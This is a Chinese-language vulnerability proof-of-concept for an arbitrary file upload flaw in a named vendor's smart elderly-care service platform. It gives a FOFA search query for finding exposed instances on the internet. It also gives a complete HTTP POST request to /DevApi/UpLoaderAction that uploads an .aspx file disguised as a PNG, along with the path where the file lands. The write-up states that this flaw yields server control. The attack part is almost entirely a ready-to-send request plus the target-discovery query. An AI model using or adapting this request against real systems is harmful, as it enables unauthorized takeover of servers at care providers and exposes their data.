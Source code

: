 # 广西金中软件集团有限公司智慧医养服务平台UpLoaderAction存在任意文件上传漏洞

# 一、漏洞简介
广西金中软件集团有限公司前身成立于1999年，隶属于广西电信下的三产公司——金中信息产业有限公司，是一家集软件开发、网站建设、网络工程、系统集成和维护服务、通信增值业务和ISP运营服务于一体的高科技IT企业。广西金中软件集团有限公司智慧医养服务平台UpLoaderAction存在任意文件上传漏洞，攻击者可通过该漏洞获取服务器权限。

# 二、影响版本
+ 智慧医养服务平台

# 三、资产测绘
+ fofa`body="Content/css/Login/images/gtx-main-bg00004.png"`
+ 特征

![1721291803179-fa0d3eb8-c0c1-498b-929f-3a07eab9d2cc.png](./img/9s3Ewn0Srh8yhvm0/1721291803179-fa0d3eb8-c0c1-498b-929f-3a07eab9d2cc-337432.png)

# 四、漏洞复现
```plain
POST /DevApi/UpLoaderAction HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:126.0) Gecko/20100101 Firefox/126.0
Accept: */*
Content-Type: multipart/form-data; boundary=---------------------------45250802924973458471174811279
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Length: 10338

-----------------------------45250802924973458471174811279
Content-Disposition: form-data; name="file"; filename="12.aspx"
Content-Type: image/png

132
-----------------------------45250802924973458471174811279
```

![1721303068575-2999a4b5-ed33-4225-b812-be1fa319fa22.png](./img/9s3Ewn0Srh8yhvm0/1721303068575-2999a4b5-ed33-4225-b812-be1fa319fa22-013346.png)

```plain
/Content/Upload/202407/18/12.aspx
```

![1721303092824-5f8236cb-148a-443a-82dc-4f32b58cbf6d.png](./img/9s3Ewn0Srh8yhvm0/1721303092824-5f8236cb-148a-443a-82dc-4f32b58cbf6d-518228.png)



> 更新: 2024-10-22 09:37:51  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/rdeert6v3r8yl1kv>